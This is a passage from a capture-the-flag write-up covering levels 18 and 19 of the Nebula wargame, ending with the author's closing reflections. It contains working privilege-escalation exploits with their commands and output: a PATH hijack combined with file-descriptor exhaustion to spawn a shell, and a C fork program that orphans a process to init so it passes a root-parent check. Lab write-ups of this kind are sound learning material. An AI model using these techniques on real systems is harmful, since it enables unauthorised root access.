	./flag18: invalid option -- 'c'
	./flag18: invalid option -- 'f'
	./flag18: invalid option -- 'i'
	./flag18: invalid option -- 'l'
	./flag18: invalid option -- 'e'
	/tmp/flag18/debug: line 1: Starting: command not found
	/tmp/flag18/debug: line 2: syntax error near unexpected token `('
	/tmp/flag18/debug: line 2: `logged in successfully (without password file)'

Heavens, it worked - sort of. Notice the */tmp/flag18/debug: line 1: Starting: command not found*? That's because our *rcfile* is set to be our debug file. So 
it writes to the debug file and then the shell will try to execute it. As we know
the first line in the file is *Starting up. Verbose level = 1*, so all we really
need to do to quash that error we need to create an executable with that name.
Inside that we will run out beloved :code:`getflag`

.. code:: console

	level18@nebula:/home/flag18$ echo getflag > /tmp/Starting
	level18@nebula:/home/flag18$ chmod +x !$
	chmod +x /tmp/Starting
	level18@nebula:/home/flag18$ export PATH=${PATH}:/tmp
	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
	./flag18: invalid option -- '-'
	./flag18: invalid option -- 'r'
	./flag18: invalid option -- 'c'
	./flag18: invalid option -- 'f'
	./flag18: invalid option -- 'i'
	./flag18: invalid option -- 'l'
	./flag18: invalid option -- 'e'
	You have successfully executed getflag on a target account
	/tmp/flag18/debug: line 2: syntax error near unexpected token `('
	/tmp/flag18/debug: line 2: `logged in successfully (without password file)'

The harder ways are beyond what I can do, but for those interested in 
circumventing `FORTIFY_SOURCE` you can read `A Eulogy for Formatting Strings <http://phrack.org/issues/67/9.html>`_. I'll be re-reading that for sure.

Flag 19 ##
----------

> There is a flaw in the below program in how it operates. 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	#include <sys/stat.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  pid_t pid;
	  char buf[256];
	  struct stat statbuf;
	
	  /* Get the parent's /proc entry, so we can verify its user id */
	
	  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());
	
	  /* stat() it */
	
	  if(stat(buf, &statbuf) == -1) {
	    printf("Unable to check parent process\n");
	    exit(EXIT_FAILURE);
	  }
	
	  /* check the owner id */
	
	  if(statbuf.st_uid == 0) {
	    /* If root started us, it is ok to start the shell */
	
	    execve("/bin/sh", argv, envp);
	    err(1, "Unable to execve");
	  }
	
	  printf("You are unauthorized to run this program\n");
	}

So we can get the shell we want if we can run this as root. How can we do that?
This exploits involves a knowledge of Linux forks. Basically if a process
forks and the parent dies, the child will automatically be run under :code:`init`.
This is called `Fork off and die <http://wiki.linuxquestions.org/wiki/Fork_off_and_die>`_. So who does `init` run as?

.. code:: console

	level19@nebula:/tmp/flag19$ ps aux | grep init
	root         1  0.0  0.6   3196  1512 ?        Ss   00:32   0:00 /sbin/init

In order to make use of this we need to run :code:`flag18` as a forked process and
then kill the parent. The arguments to :code:`flag18` are passed onto the shell
it executes, and thus we can make use of this. I'll write some C code
to fork the :code:`flag18` process to which we will pass the :code:`getflag`. It should
work.

.. code:: C

	#include <unistd.h>
	
	int main(int argc, char **argv, char **envp) {
	    int childPID = fork();
	    if(childPID >= 0) { // forked
	        if(childPID == 0) { // child
	            sleep(1);
	            setresuid(geteuid(),geteuid(),geteuid());
	            char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
	            execve("/home/flag19/flag19", args, envp);
	        }
	    }
	    return 0;
	}

Get the idea? Right, let's taste this pudding

.. code:: console

	level19@nebula:/tmp/flag19$ gcc forkit.c -o forkit
	level19@nebula:/tmp/flag19$ ./forkit
	level19@nebula:/tmp/flag19$ You have successfully executed getflag on a target account

**Nebula done.** 

Closing words ##
----------------

Firstly: Thanks for taking the time to read this. Please leave any feedback or
comments below (or twitter/email if you prefer).

Secondly: If you are here because you are also playing *Nebula* and are
new to this like I am, this write up might seem like magic. 
You're struggling to figure out how to get past a certain
level and then this text makes it seem like magic. 

It's not like that. I spent a lot of time working through the later levels as I
quickly learned how little I knew. Much time was spent researching and learning
about things I thought I already knew. Turns out I knew very little about them. 
There were a lot of failures on the way, but if I kept those in, this post 
would be much much longer. The thought process seems very simple in write ups,
but trust me, there's quite a bit of puzzling and thinking to do.

It's early days for me too, and I very much enjoyed *Nebula*, and have a whole
new set of tools and ideas in my arsenal for the next challenge.
